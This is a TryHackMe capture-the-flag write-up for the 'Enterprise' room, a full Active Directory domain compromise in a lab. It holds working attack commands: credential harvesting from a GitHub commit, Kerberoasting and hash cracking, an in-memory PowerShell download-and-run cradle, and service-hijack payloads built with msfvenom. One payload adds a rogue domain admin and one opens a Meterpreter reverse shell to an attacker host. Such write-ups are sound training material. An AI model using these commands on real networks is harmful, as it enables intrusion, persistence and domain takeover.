





# TryHackMe — Enterprise

**Room:** Enterprise
**Difficulty:** Hard
**Operating System:** Windows
**Made by:** @tryhackme
**Tags:** `Active Directory` `Kerberoasting` `OSINT` `GitHub` `Unquoted Service Path` `BloodHound` `Service Hijacking`

---

> **A note before we start:** Same deal as always — full black-box methodology, not just the commands that worked. The rabbit holes are in here too, because that is half the job.

---

## 

---

## Context

You just landed in an internal network. You scan the network and there is only the Domain Controller. Your objective: full domain compromise.

---

## Phase 1 — Reconnaissance

### Start with Nmap

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ nmap -Pn -p- -A 10.112.151.187 -vv -oN nmap.txt
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: LAB-ENTERPRISE
|   NetBIOS_Computer_Name: LAB-DC
|   DNS_Domain_Name: LAB.ENTERPRISE.THM
|   DNS_Tree_Name: ENTERPRISE.THM
|_  Product_Version: 10.0.17763
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
7990/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: Log in to continue - Log in with Atlassian account
9389/tcp  open  mc-nmf        .NET Message Framing

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

### Reading the Scan

This is a full Domain Controller — Kerberos on 88, LDAP on 389 and 636, Global Catalog on 3268/3269, the whole suite. The RDP banner is particularly generous, leaking the full AD structure: machine name `LAB-DC`, domain `LAB.ENTERPRISE.THM`, and forest root `ENTERPRISE.THM`. We are dealing with a subdomain inside a larger forest.

SMBv3 with signing required — relay attacks are off the table, same story as always on these rooms.

Two web ports are open. Port 80 IIS and port **7990** which Nmap already fingerprinted as an **Atlassian login page**. That one is going on the list to revisit. WinRM is also open on 5985.

Updating `/etc/hosts` with both the subdomain and the forest root — useful if there are cross-domain trust relationships to explore later:

```
10.112.151.187  LAB-DC.LAB.ENTERPRISE.THM  LAB.ENTERPRISE.THM  ENTERPRISE.THM
```

---

## Phase 2 — SMB & LDAP Enumeration

### First — enum4linux-ng

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ enum4linux-ng 10.112.151.187 -A
```

```
[+] Appears to be root/parent DC
[+] Long domain name is: ENTERPRISE.THM
[+] SMB signing required: true
[+] Server allows authentication via username '' and password ''
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED
[-] Could not get groups: STATUS_ACCESS_DENIED
[+] Found 0 shares for user '' with password ''
```

Null session partially works — anonymous bind succeeds, we get the domain name and SID, but every deeper RPC call comes back `STATUS_ACCESS_DENIED`. Classic hardened DC behavior.

### Checking LDAP

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ ldapsearch -x -H ldap://10.112.151.187 -s base namingcontexts
```

```
namingcontexts: CN=Configuration,DC=ENTERPRISE,DC=THM
namingcontexts: CN=Schema,CN=Configuration,DC=ENTERPRISE,DC=THM
namingcontexts: DC=ForestDnsZones,DC=ENTERPRISE,DC=THM
namingcontexts: DC=LAB,DC=ENTERPRISE,DC=THM
namingcontexts: DC=DomainDnsZones,DC=LAB,DC=ENTERPRISE,DC=THM
```

This confirms the forest structure cleanly: `ENTERPRISE.THM` is the forest root, `LAB.ENTERPRISE.THM` is the child domain we are operating in. Good to know for later.

### The SMB Share Quirk Worth Knowing

CrackMapExec reported zero shares with a null session:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ crackmapexec smb 10.112.151.187 -u '' -p '' --shares
SMB  10.112.151.187  445  LAB-DC  [+] LAB.ENTERPRISE.THM\:
SMB  10.112.151.187  445  LAB-DC  [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

But not trusting that — CrackMapExec uses RPC/SAMR internally to enumerate shares, which gets blocked by the same policy that denied our user/group enumeration. Let's try `smbclient` directly, which uses a different code path:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ smbclient -L //10.112.151.187 -N

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    Docs            Disk
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share
    SYSVOL          Disk      Logon server share
    Users           Disk      Users Share. Do Not Touch!
```

There they are. `Docs` and a `Users` share with a suspiciously defensive description. Let's look at both.

---

## Phase 3 — SMB Share Enumeration (Rabbit Holes)

### The Docs Share

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ smbclient //10.112.151.187/Docs -N
smb: \> ls
  RSA-Secured-Credentials.xlsx    A    15360
  RSA-Secured-Document-PII.docx   A    18432

smb: \> prompt off
smb: \> mget *
```

Both files are password protected. Tried John against the encryption metadata — do not bother. Modern Office files (2013+) use **PBKDF2-SHA256 with 100,000 iterations** per guess. That drops cracking speed from millions of attempts per second down to roughly 10-20 per second. rockyou.txt would take years. This is a rabbit hole, moving on.

### The Users Share

"Do Not Touch!" they said.

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ smbclient //10.112.151.187/Users -N
smb: \> ls
  Administrator    D
  atlbitbucket     D
  bitbucket        D
  Default          D
  LAB-ADMIN        D
  Public           D
```

Browsing through the user directories, there is something worth knowing about Windows environments in general: PowerShell keeps a command history file at `AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`. This file persists across sessions and is readable if you have share access.

Inside `LAB-ADMIN`'s history:

```
echo "replication:101RepAdmin123!!" > private.txt
```

Tried these creds. Useless. Another rabbit hole.

The important find here though is the username list the directory structure gives us: `Administrator`, `atlbitbucket`, `bitbucket`, `LAB-ADMIN`. These are real accounts on this machine.

---

## Phase 4 — Kerbrute & AS-REP Roasting (Nothing, but Worth Doing)

With a username list building up, let's run Kerbrute to confirm valid domain accounts:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ /opt/kerbrute userenum --dc 10.112.151.187 -d LAB.ENTERPRISE.THM /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

```
[+] VALID USERNAME: banana
[+] VALID USERNAME: guest
[+] VALID USERNAME: administrator
[+] VALID USERNAME: cake
[+] VALID USERNAME: enterprise
[+] VALID USERNAME: nik
[+] VALID USERNAME: spooks
[+] VALID USERNAME: joiner
```

Then immediately checked the list for AS-REP roastable accounts:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ impacket-GetNPUsers LAB.ENTERPRISE.THM/ -dc-ip 10.112.151.187 -no-pass -usersfile users.txt
[-] User banana doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nik doesn't have UF_DONT_REQUIRE_PREAUTH set
# ... (same for all)
```

Nothing. Every account has Kerberos pre-authentication enabled. Let's move on to the web services.

---

## Phase 5 — Web Enumeration & GitHub OSINT

### Port 80

Fuzzing and manual browsing — completely empty. Nothing interesting on port 80.

### Port 7990 — Atlassian Bitbucket

This is the one. The login page has a notice:

```
Reminder to all Enterprise-THM Employees:
We are moving to GitHub
```

That is an OSINT lead. If they are moving to GitHub, there is likely already a GitHub organisation. I searched for `Enterprise-THM` on GitHub — and there it is. A real organisation with repositories and members.

## 

Checking the member list: one of the contributors is `Nik-enterprise-dev`. We already confirmed `nik` as a valid domain account from Kerbrute. This person is real.

## 

Browsing their repositories, there is an admin automation script — and here is where someone is going to have a bad day at work.

## 

Checking the **commit history** of that file reveals a previous version where the credentials were committed in plaintext before being removed:

## 

```powershell
$userName = 'nik'
$userPassword = 'ToastyBoi!'
```

Oopsie. Someone is going to get fired.

---

## Phase 6 — Credential Validation & Kerberoasting

### Validating `nik`

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ crackmapexec smb 10.112.151.187 -u 'nik' -p 'ToastyBoi!'
SMB  10.112.151.187  445  LAB-DC  [+] LAB.ENTERPRISE.THM\nik:ToastyBoi!
```

Valid credentials. No `Pwn3d!` — standard domain user. Can't use psexec or wmiexec without admin rights.

Checked groups — the `Remote Management Users` group is empty. WinRM access exists on the system but nobody is in the group. That port is there just to waste our time apparently.

But the `Remote Desktop Users` group:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ crackmapexec smb 10.112.151.187 -u 'nik' -p 'ToastyBoi!' --groups 'Remote Desktop Users'
SMB  10.112.151.187  445  LAB-DC  LAB.ENTERPRISE.THM\bitbucket
```

`bitbucket` can RDP. Now we have a target.

### Kerberoasting — Let's Find SPNs

With valid credentials, let's check for Kerberoastable accounts:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ impacket-GetUserSPNs -dc-ip 10.112.151.187 LAB.ENTERPRISE.THM/nik:ToastyBoi! -request
```

```
ServicePrincipalName  Name       MemberOf
--------------------  ---------  ------------------------------------------
HTTP/LAB-DC           bitbucket  CN=sensitive-account,CN=Builtin,DC=LAB,...

$krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$LAB.ENTERPRISE.THM/bitbucket*$28e7ff42f235...
```

`bitbucket` has an SPN registered — `HTTP/LAB-DC` — which means we can request a TGS ticket for it and attempt to crack it offline. Also notice it is a member of `sensitive-account`. That is worth keeping in mind.

### Cracking the TGS Hash

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ hashcat -m 13100 service.hash /usr/share/wordlists/rockyou.txt
```

Password: `littleredbucket`

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ crackmapexec smb 10.112.151.187 -u 'bitbucket' -p 'littleredbucket'
SMB  10.112.151.187  445  LAB-DC  [+] LAB.ENTERPRISE.THM\bitbucket:littleredbucket
```

Valid. Still no `Pwn3d!` — but we know `bitbucket` can RDP.

---

## Phase 7 — RDP Foothold & Flag 1

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ xfreerdp /v:10.112.151.187 /u:bitbucket /p:'littleredbucket' /d:LAB.ENTERPRISE.THM /cert:ignore /sec:nla
```

We are in. Flag 1 is sitting on the desktop:

**Flag 1:** `THM{ed882d02b34246536ef7da79062bef36}`

---

## Phase 8 — BloodHound

With two owned accounts now — `nik` and `bitbucket` — let's map the domain:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ bloodhound-python -u bitbucket -p 'littleredbucket' -d LAB.ENTERPRISE.THM -ns 10.112.151.187 -c All

┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ sudo neo4j start

┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ /opt/BloodHound-linux-x64/BloodHound --no-sandbox
```

Upload and mark both accounts as owned.

## 

The graph tells a limited story — no direct privilege escalation path through AD permissions for either account. BloodHound does confirm what we already knew: `bitbucket` has `CanRDP` to `LAB-DC` and is a member of `sensitive-account`. The `Administrator` account has an active session on `LAB-DC` too, which is visible in the graph.

> _Screenshot — BloodHound: bitbucket CanRDP to LAB-DC, Administrator HasSession, MemberOf Domain Admins_ > `[screenshot-bloodhound-canrdp-session.png]`

Since there is no obvious AD ACL path to exploit, we need to look at the local machine itself. Time to enumerate privilege escalation vectors on the host.

---

## Phase 9 — Local Privilege Escalation via Unquoted Service Path

### PowerUp — Loading in Memory

```bash
# On Kali — serve PowerUp
python3 -m http.server 80
```

On the RDP session in PowerShell, we load it directly into memory — no file touching the disk:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.129.39:80/PowerUp.ps1')
Invoke-AllChecks
```

PowerUp returns several findings. The most interesting ones — trimming the noise:

The `zerotieroneservice` service shows up multiple times with two different vulnerability classes:

- **Unquoted Service Path:** The binary path `C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe` contains spaces and is not quoted. Windows will attempt to resolve the binary by trying progressively shorter paths — meaning a binary named `Zero.exe` placed in `C:\Program Files (x86)\Zero Tier\` will get executed instead of the real one.
- **Modifiable Service Binary:** `BUILTIN\Users` has write permissions directly on the service executable itself.
- **StartName: LocalSystem** — the service runs as `NT AUTHORITY\SYSTEM`.
- **CanRestart: True** — we can stop and start the service ourselves without admin rights.

That last point is what makes this exploitable without a reboot trigger. We have everything we need.

---

## Phase 10 — Service Hijack: Two Methods

### Method 1 — Persistence: Add a Domain Admin

The cleanest approach for persistence: craft a service binary that runs a `net user` and `net group` command to add a new account directly into Domain Admins. Running as SYSTEM on a DC means those commands execute with full domain authority.

On Kali:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ msfvenom -p windows/x64/exec CMD="cmd.exe /c net user hacker Password123! /add /domain && net group \"Domain Admins\" hacker /add /domain" -f exe-service -o Zero.exe
Payload size: 369 bytes
Final size of exe-service file: 12288 bytes
Saved as: Zero.exe

python3 -m http.server 80
```

On the RDP PowerShell session:

```powershell
PS C:\Users\bitbucket> wget "192.168.129.39:80/Zero.exe" -OutFile "C:\Program Files (x86)\Zero Tier\Zero.exe"
Stop-Service zerotieroneservice
Start-Service zerotieroneservice
```

Confirming the result:

```powershell
PS C:\Users\bitbucket> net user hacker /domain

Local Group Memberships
Global Group memberships     *Domain Admins    *Domain Users
The command completed successfully.
```

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ crackmapexec smb 10.112.151.187 -u 'hacker' -p 'Password123!'
SMB  10.112.151.187  445  LAB-DC  [+] LAB.ENTERPRISE.THM\hacker:Password123! (Pwn3d!)
```

`Pwn3d!` — Domain Admin confirmed.

---

### Method 2 — Interactive SYSTEM Shell via Meterpreter

If you want an interactive shell instead, craft a Meterpreter payload and drop it as the hijack binary:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.129.39 LPORT=4444 EXITFUNC=thread -f exe -o 'ZeroTier One.exe'
Payload size: 511 bytes
Final size of exe file: 7680 bytes
```

In Metasploit, set up the handler — **critically important**: set `InitialAutoRunScript` to auto-migrate immediately after the session opens. The service binary gets killed when the service stops, so without migration the session dies almost instantly:

```
msf > use multi/handler
msf exploit(multi/handler) > set lhost 192.168.129.39
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set InitialAutoRunScript post/windows/manage/migrate
msf exploit(multi/handler) > run
```

Download and stage the binary on the RDP session, then restart the service. Meterpreter catches the connection, auto-migrates to a stable process, and you have a full interactive `NT AUTHORITY\SYSTEM` shell on the DC.

---

## Phase 11 — Grabbing the Final Flag

With Domain Admin access:

```bash
┌──(kali㉿kali)-[~/Writeups/Enterprise]
└─$ crackmapexec smb 10.112.151.187 -u 'hacker' -p 'Password123!' --get-file 'C:\Users\Administrator\Desktop\system.txt' system.txt
```

**Flag 2:** `THM{1a1fa94875421296331f145971ca4881}`

---

## Closing Thoughts

This room earns its Hard rating honestly. The path to initial credentials is not technical — it is OSINT. A GitHub organisation, a commit history, a developer who forgot to scrub their credentials before pushing. That is not a CTF gimmick. That happens in real engagements constantly, and it is often the fastest way into a network.

The privilege escalation through the unquoted service path is a classic but the `CanRestart: True` flag is what makes it clean. Without the ability to restart the service yourself, you are waiting for a reboot or hoping someone else triggers it. Having that permission turns a theoretical finding into an immediate win.

Thanks for reading.

---

_Raw .md file available on GitHub: [https://github.com/MohamedTaherBorgi/Writeups](https://github.com/MohamedTaherBorgi/Writeups)_

---

**Tags:** `TryHackMe` `Active Directory` `Kerberoasting` `OSINT` `GitHub` `Unquoted Service Path` `PowerUp` `Meterpreter` `Service Hijacking`
